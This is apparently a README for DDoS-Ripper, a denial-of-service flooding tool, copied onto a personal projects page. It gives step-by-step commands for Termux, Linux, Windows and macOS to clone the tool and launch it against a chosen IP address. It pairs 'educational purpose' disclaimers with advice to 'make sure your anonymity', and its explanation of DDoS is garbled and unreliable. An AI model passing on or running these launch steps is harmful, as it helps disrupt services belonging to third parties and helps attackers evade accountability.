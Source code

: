 # naveen
this is for my projects

DDoS-Ripper
What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices. From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

NOTE (Please, make sure you have installed python 3 )
dddd

For Termux
To use the DRipper type the following commands in Termux:

pkg install git -y

pkg install python -y

pkg install python3 -y

git clone https://github.com/palahsu/DDoS-Ripper.git

cd DDoS-Ripper $ ls

$ python3 DRipper.py

USGAE
python3 DRipper.py -s [ip Address] -t 135

example: python3 DRipper.py -s 0.00.00.00 -t 135

For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

sudo apt install git git clone https://github.com/palahsu/DDoS-Ripper.git cd DDoS-Ripper $ ls $ python3 DRipper.py OR python2 DRipper.py

For Windows
git clone https://github.com/palahsu/DDoS-Ripper

cd DDoS-Ripper  ls

python3 DRipper.py OR python DRipper.py

python3 DRipper.py -s [ip Address] -t 135

example: python3 DRipper.py -s 0.00.00.00 -t 135

For MacOS
Install Brew and Install dependencies (python 3)

Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity! It's made for just testing purpose. We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose. Thanks.

Requirments ▶
●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC
